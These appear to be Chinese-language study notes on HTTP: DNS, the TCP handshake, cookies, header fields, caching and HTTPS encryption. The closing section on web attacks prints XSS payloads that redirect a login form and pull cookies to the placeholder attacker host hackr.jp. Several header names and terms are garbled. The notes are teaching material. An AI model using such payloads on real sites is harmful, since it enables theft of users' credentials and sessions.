

# 一、DNS服务

* **负责域名解析的DNS服务**

* **dns服务是和http协议一样位于应用层的协议，（而tcp和udp协议位于传输层，ip协议位于网络层）。它提供域名到ip地址之间的解析服务**

# 二、TCP三次握手
1. 第一次握手：建立连接时,客户端发送**syn包(syn=j)**到服务器,并进入**SYN_SEND**状态,等待服务器确认； SYN：同步序列编号(Synchronize Sequence Numbers)
2. 第二次握手：服务器收到syn包,必须确认客户的**SYN（ack=j+1）**,同时自己也发送一个**SYN包（syn=k）**,即**SYN+ACK包**,此时服务器进入SYN_RECV状态；
3. 第三次握手：客户端收到服务器的SYN＋ACK包,向服务器发送**确认包ACK(ack=k+1)**,此包发送完毕,客户端和服务器进入ESTABLISHED状态,完成三次握手.完成三次握手,客户端与服务器开始传送数据

# 三、状态协议
## 无状态

* http是一种不保存状态的协议，即无状态协议。http协议自身不对请求和响应之间的通信状态进行保存

## 有状态协议

* 有状态协议更复杂：
  * 需维护状态（历史信息）
  * 如果客户或服务器失效，会产生状态的不一致，解决这种不一致代价高。

# 四、持久连接（Connection：keep-alive）
* 特点：只要任意任意一端没有明确提出断开连接，则保持TCP连接状态。

* 好处：在于减少了TCP连接的重复建立和断开所造成的额外开销。（在http/1.1中，所有连接默认都是持久连接）

# 五、管线化
持久连接使得多数请求以管线化方式发送成为可能。从前发送请求后需等待并收到响应，才能发送下一个请求。管线化技术出现后，**不用等待响应亦可直接发送下一个请求。**这样就能够做到同时并行发送多个请求，而不需要一个接一个地等待响应了。

# 六、使用cookie的状态管理
Cookie会根据从服务端发送的响应报文内的一个叫做**Set-Cookie**的首部字段信息，通知客户端**保存Cookie**。当下次客户端再往该服务器发送请求时，客户端会自动**在请求报文中加入Cookie值（键值对形式）**后发送出去。服务端发现客户端发送过来的Cookie后，会去检查究竟是从哪一个客户端发送过来的连接请求，然后对比服务器上的记录，最后得到之前的状态信息。

### Cookie的组件

* HTTP响应消息的cookie头部行
* HTTP请求消息的Cookie头部行
* 保存在客户端主机上的cookie文件，由浏览器管理
* Web服务器端的后台数据库

### 原理



### 缺点

**存在隐私问题**

# 七、通信数据转发程序

## 代理

* 代理是一种有转发功能的应用程序，它扮演了位于服务器和客户端“中间人”的角色，接受由客户端发送的请求并转发给服务器，同时也接受服务器返回的响应并转发给客户端。

## 网关

* 网关是转发其他服务器通信数据的服务器,接收从客户端发送来的请求时,它就像自己拥有资源的源服务器一样对请求进行处理,有时客户端可能都不会察觉,自己的通信目标是一个网关

## 隧道

* 隧道是在相隔远的客户端和服务器两之间进行中转，并保存双方通信连接的应用程序

# 八、HTTP首部字段

## 通用首部字段

| 首部字段名               |                         说明 |
| ------------------------ | ---------------------------: |
| Cache-control            |               控制缓存的行为 |
| Connection               |         逐跳首部、连接的管理 |
| Date                     |           创建报文的日期时间 |
| Pragma                   |                     报文指令 |
| Trailer                  |           报文末端的首部一览 |
| Transfer-encodingUpgrade |   指定报文主体的传输编码方式 |
| Upgrade                  |               升级为其他协议 |
| Warning                  | 代理服务器的相关信息错误通知 |
| Via                      |         代理服务器的相关信息 |

## 请求首部字段

| 首部字段名      |                     说明 |
| --------------- | -----------------------: |
| Accept          | 用户代理可处理的媒体类型 |
| Connection      |     逐跳首部、连接的管理 |
| Accept-charset  |             优先的字符集 |
| Accept-encoding |           优先的内容编码 |
| Accept-language |     优先的语言(自然语言) |
| Authorzation    |              Web认证信息 |
| Expect          |     期待服务器的特定行为 |
| From            |       用户的电子邮箱地址 |
| Host            |       请求资源所在服务器 |
|  If-Match                       |                比较实体标记(ETag)  |
|If-Modified-Since         |比较资源的更新时间  |
|If-None-Match      |   比较实体标记(与-Match相反） |
|unmodified--Since   |   比较资源的更新时间(与f-Modified-Since相反)  |
|Max-forwards   |  最大传输逐跳数 |
|Poxy-Authorization    |     代理服务器要求客户端的认证信息  |
|Range     |    实体的字节范围请求   |
|Referer     |    对请求中URI的原始获取方   |
|TE     |    传输编码的优先级   |
|User-agent    |     HTTP客户端程序的信息   |

## 响应首部字段
| 首部字段名         |                         说明 |
| ------------------ | ---------------------------: |
| Age                |         推算资源创建经过时间 |
| Etag               |               资源的匹配信息 |
| Location           |      令客户端重定向至指定URI |
| Proxy-authenticate | 代理服务器对客户端的认证信息 |
| ServerHTTP         |             服务器的安装信息 |
| Vary               |     代理服务器缓存的管理信息 |
| Accept-ranges      |         是否接受字节范围请求 |
| WWW-Authenticate   |     服务器对客户端的认证信息 |

## 实体首部字段

| 首部字段名       |                      说明 |
| ---------------- | ------------------------: |
| Allow            |      资源可支持的HTTP方法 |
| Content-encoding |    实体主体适用的编码方式 |
| Content-language |        实体主体的自然语言 |
| Content-length   | 实体主体的大小(单位:字节) |
| Content-location |         替代对应资源的URI |
| Content-md5      |        实体主体的报文摘要 |
| Content-range    |        实体主体的位置范围 |
| Content-type     |        实体主体的媒体类型 |
|Last-modified   |    资源的最后修改日期时间|
|Expires   |     实体主体过期的日期时间   |

# 九、前端缓存

## HTTP缓存

当客户端向服务器请求资源时，会先抵达浏览器缓存，如果浏览器有“要请求资源”的副本，就可以直接从浏览器缓存中提取而不是从原始服务器中提取这个资源。

---
### **强缓存**

浏览器直接从本地缓存中获取数据，不与服务器进行交互。

用户发起了一个http请求后，浏览器发现先本地已有所请求资源的缓存，便开始检查缓存是否过期。有两个http头部字段控制缓存的有效期：Expires和Cache-Control，浏览器是根据以下两步来判定缓存是否过期的：

**1、查看缓存是否有Cache-Control的s-maxage或max-age指令，若有，则使用响应报文生成时间Date + s-maxage/max-age获得过期时间，再与当前时间进行对比（s-maxage适用于多用户使用的公共缓存服务器）；**

**2、如果没有Cache-Control的s-maxage或max-age指令，则比较Expires中的过期时间与当前时间。Expires是一个绝对时间。**

> **注**：**从字面意思上很容易把no-cache误解成为不缓存,但事实上no-cache代表不缓存过期的资源,缓存会向源服务器进行有效期确认后处理资源,也许格do-not-serve-from-cache-without--revalidation更合适。no-store才是真正地不进行缓存**

---
### **协商缓存**

浏览器发送请求到服务器，服务器判定是否可使用本地缓存。

* **若未命中强缓存，则浏览器会将请求发送至服务器。服务器根据http头信息中的Last-Modify/If-Modify-Since或Etag/If-None-Match来判断是否命中协商缓存。如果命中，则http返回码为304，浏览器从缓存中加载资源。**

* **Last-Modify/If-Modify-Since**

  浏览器第一次请求一个资源的时候，服务器返回的header中会加上Last-Modify，Last-modify是一个时间标识该资源的最后修改时间，例如Last-Modify: Thu,31 Dec 2037 23:59:59 GMT。

* **ETag/If-None-Match**

  与Last-Modify/If-Modify-Since不同的是，Etag/If-None-Match返回的是一个校验码（ETag: entity tag）。ETag可以保证每一个资源是唯一的，资源变化都会导致ETag变化*。ETag值的变更则说明资源状态已经被修改。服务器根据浏览器上发送的If-None-Match值来判断是否命中缓存。

## 浏览器缓存

# 十、确保web安全的https

## http的缺点

（1）通信使用明文(不加密),内容可能会被窃听

（2）不验证通信方的身份,因此有可能遭遇伪装

（3）无法证明报文的完整性,所以有可能已遭篡改

## http+加密+认证+完整性保护=https
**通常,HTTP直接和TCP通信。当使用SSL时,则演变成先和SSL通信,再由SSL和TCP通信了。简言之,所谓HTTPS,其实就是身披SSL协议这厂外壳的HTTP**

## 相互交换秘钥的公开秘钥加密技术

### 密钥

**加密和解密都会用到密钥。没有密钥就无法对密码解密,反过来说,任何人只要持有密钥就能解密子,如果密被攻击者获得,加也就失去了意义**

### 共享秘钥加密

**加密和解密同用一个密钥的方式称为共享密钥加密(Commonkposscm).也被叫做对称密钥加密。这种方式只要拿到秘钥，任何人都能破解密码，不安全**

### 公开秘钥加密

**公开密钥加密使用一对非对称的密钥。一把叫做私有密钥pnvateky).另一把叫做公开密钥(publickey)。顾名思义,私有密钥不能其他任何人知道,而公开密钥则可以随意发布,任何人都可以获得。使用公开密钥加密方式,发送密文的一方使用对方的公开密钥进行加密处理,对方收到被加密的信息后,再使用自己的私有密钥进行解密。利用这种方式,不需要发送用来解密的私有密钥,也不必担心密钥被攻击者窃听而盗走。**

### 混合加密机制

**https采用的是共享秘钥加密和公开秘钥加密两者并用的混合加密机制。公开密钥加密处理起来比共享密钥加密方式更为复杂,因此若在通信时使用公开密钥加密方式,效率就很低。**

1. **先使用公开密钥加密方式，安全地交换在稍后的共享密钥加密中要使用的密钥（客户端可以将共享密钥加密中的密钥用公开密钥加密中的公钥进行加密，发送给服务器，然后服务器使用公开密钥加密技术的私钥进行解密，就拿到了共享密钥加密技术中的私钥）**
2. **确保交换的密钥是安全的前提下,使用共享密钥加密方式进行通信**

**（5）证明公开密钥正确性的证书**

**建立公开密钥加密方式下的通信时,如何证明收到的公开密钥就是原本预想的那台服务器发行的公开密钥。或许在公开密钥传输途中,真正公开密钥已经被攻击者替换掉了。为了解决上述问题,可以使用由数字证书认证机构。数字证书认证机构处于客户端与服务器双方都可信赖的第三方机构的立场上。比如威瑞信(Ensign)就是其中一家非常有名的数字证书认证机构。我们来介绍一下数字证书认证机构的业务流程。首先,服务器的营人员向数字证书认证机构提出公开密钥的申请。数字证书认证机构在判明提出申请者的身份之后,会对已申请的公开密钥做数字签名,然后分配这个已签名的公开密钥,并将该公开密钥放入公钥证书后绑定在一起。服务器会将这份由数字证书认证机构颁发的公钥证书发送给客户端,以进行公开密钥加密方式通信。公钥证书也可叫做数字证书或直称为证书。接到证书的客户端可使用数字证书认证机构的公开密钥,对那书上的数字签名进行验证,一旦验证通过,客户端便可明确两件事：一,认证服务器的公开密钥的是真实有效的数字证书认证机构。二服务器的公开密钥是值得信赖的。此处认证机关的公开密钥必须安全地转交给客户端。使用通信方式时,如何安全转交是一件很困难的事,因此,多数浏览器开发商发布时,会事先在内部植入常用认证机关的公开密钥。**


## https协议的缺点

**（1）https握手阶段比较费时，会使页面加载时间延长50%，增加10%~20%的耗电，消耗更多的cpu和内存资源**

**（2）https缓存不如http高效，会增加数据开销。**

**（3）SSL证书也需要钱，功能越强大的证书费用越高。**

**（4）SSL证书需要绑定IP，不能再同一个ip上绑定多个域名，ipv4资源支持不了这种消耗。**


# 轮询、长轮询、长连接、websocket
[具体内容查看此链接](https://www.cnblogs.com/huchong/p/8595644.html)

# 十一、web的攻击技术

## 跨站脚本攻击（XSS）

**（1）跨站脚本攻击属于被动攻击模式,因此攻击者会事先布置好用于攻击的陷阱。地址栏中URI的查询字段指定ID,即相当于在表单内自动填写字符串的功能。而就在这个地方,隐藏着可执行跨站脚本攻击的漏洞。充分熟知此处漏洞特点的攻击者,于是就创建了下面这段嵌入恶意代码的URL。**
```
http://example.jp/login?
ID="><script>var+f=document.getElementById("login");
+f.action="http://hackr.jp/pwget";
+f.method="get";</script><span+s="
```
浏览器打开该URI后,直观感觉没有发生任何变化,但设置好的脚本却偷偷开始运行了。当用户在表单内输入ID和密码之后,就会直接发送到攻击者的网站，导致个人信息被窃取。

**（2）对用户Cookie的窃取攻击**
可的脚本同样能够以

```
<script src=http://hackr.jp/xss.jsx></script>
```
该脚本内指定http://hackr.jp/xss.js文件。即下面这段采用javascript编写的代码。
```
var content = escape(document.cookie);
document.write("");
```
在存在可跨站脚本攻击安全漏洞的Web应用上执行上面这段javascript程序,即可访问到该Web应用所处域名下的Cookie信息。然后这些信息会发送至攻击者的Web网站(http://hackr.jp)记录在他的日志中。结果,攻击者就这样窃取到用户的Cookie信息了。

**(3) Cookie如何防范XSS攻击**

XSS（跨站脚本攻击）是指攻击者在返回的HTML中嵌入javascript脚本，为了减轻这些攻击，需要在HTTP头部配上，set-cookie：

httponly-这个属性可以防止XSS,它会禁止javascript脚本来访问cookie。

secure - 这个属性告诉浏览器仅在请求为https的时候发送cookie。

结果应该是这样的：
```
Set-Cookie=<cookie-value>.....
```

